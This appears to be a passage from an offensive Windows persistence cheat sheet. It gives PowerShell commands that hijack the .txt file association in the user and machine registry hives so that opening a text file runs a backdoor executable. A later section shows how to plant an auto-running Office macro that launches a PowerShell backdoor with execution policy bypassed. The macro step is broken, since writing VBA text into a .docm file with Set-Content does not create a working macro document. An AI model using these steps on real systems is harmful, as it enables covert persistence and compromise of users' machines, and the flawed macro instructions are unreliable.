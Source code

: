 #### View Current File Associations for a Specific Extension
- To view the current program or command associated with a specific file extension, such as `.txt`, use the following PowerShell command:
	```powershell
	Get-ItemProperty -Path 'HKCU:\Software\Classes\.txt'
	```
This will display the current association of the `.txt` extension. The default value typically indicates what class (e.g., `txtfile`) is used to handle files with that extension.

#### Change File Association to a Malicious Executable
- To modify the file association of a specific extension (like `.txt`), you can set it up so that when a user opens a `.txt` file, it executes a malicious payload such as a backdoor. Here’s how to modify the association:

1. Step 2.1: Ensure the file type (e.g., `txtfile`) is mapped correctly to the file extension:
    ```powershell
    New-ItemProperty -Path 'HKCU:\Software\Classes\.txt' -Name '(Default)' -Value 'txtfile' -Force
    ```

2. Step 2.2: Redirect the command that is executed when the file is opened. This can be set to launch a malicious executable:
    ```powershell
    Set-ItemProperty -Path 'HKCU:\Software\Classes\txtfile\shell\open\command' -Name '(Default)' -Value 'C:\Backdoor\backdoor.exe'
    ```

In this example, any `.txt` file opened by the user will trigger the execution of `C:\Backdoor\backdoor.exe`. This can be replaced by any malicious script or binary.

#### Notes
- Persistence Mechanism: This approach is persistent as the registry settings are applied at user login and persist across reboots, as long as the registry entries are not modified.
  
- Scope: The changes above are made in the user’s registry hive (`HKCU`), meaning the hijacking affects only the current user. To apply this globally across all users, modify `HKLM` (Local Machine):
    ```powershell
    New-ItemProperty -Path 'HKLM:\Software\Classes\.txt' -Name '(Default)' -Value 'txtfile' -Force
    Set-ItemProperty -Path 'HKLM:\Software\Classes\txtfile\shell\open\command' -Name '(Default)' -Value 'C:\Backdoor\backdoor.exe'
    ```

# Office Macros

#### Add a Malicious Macro in Office Document
- Use `Set-Content` to inject a malicious VBA macro into an Office document for execution on open.
	```powershell
	$macroCode = 'Sub AutoOpen() Shell("powershell.exe -ExecutionPolicy Bypass -File C:\Backdoor\backdoor.ps1") End Sub'
	Set-Content -Path "C:\Documents\malicious.docm" -Value $macroCode
	```
